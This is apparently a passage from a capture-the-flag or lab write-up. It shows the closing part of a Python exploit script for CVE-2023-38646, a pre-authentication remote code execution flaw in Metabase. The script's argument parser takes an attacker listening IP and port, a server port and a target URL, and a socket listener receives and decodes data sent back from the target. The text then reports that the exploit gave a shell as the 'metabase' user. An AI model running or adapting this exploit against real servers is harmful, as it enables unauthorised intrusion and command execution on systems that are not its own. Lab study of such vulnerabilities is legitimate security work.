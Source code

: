 ```python
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.bind(("0.0.0.0", argument.lport))
        sock.listen()
        conn, addr = sock.accept()
        data = conn.recv(10240).decode("ascii")
        print(f"\n{(b64decode(data)).decode()}")
    except Exception as ex:
        print(colored(f"[-] Error: {ex}", "red"))
        pass
    


if __name__ == "__main__":
    print(colored("[*] Exploit script for CVE-2023-38646 [Pre-Auth RCE in Metabase]", "magenta"))
    args = argparse.ArgumentParser(description="Exploit script for CVE-2023-38646 [Pre-Auth RCE in Metabase]")
    args.add_argument("-l", "--lhost", metavar="", help="Attacker's bind IP Address", type=str, required=True)
    args.add_argument("-p", "--lport", metavar="", help="Attacker's bind port", type=int, required=True)
    args.add_argument("-P", "--sport", metavar="", help="HTTP Server bind port", type=int, required=True)
    args.add_argument("-u", "--url", metavar="", help="Metabase web application URL", type=str, required=True)
    argument  = args.parse_args()
    if argument.url.endswith("/"):
        argument.url = argument.url[:-1]
    success = False
    exploit()
```

By using this exploit, A shell was spawned as the user "metabase".

![](images/Pasted%20image%2020240320021346.png)
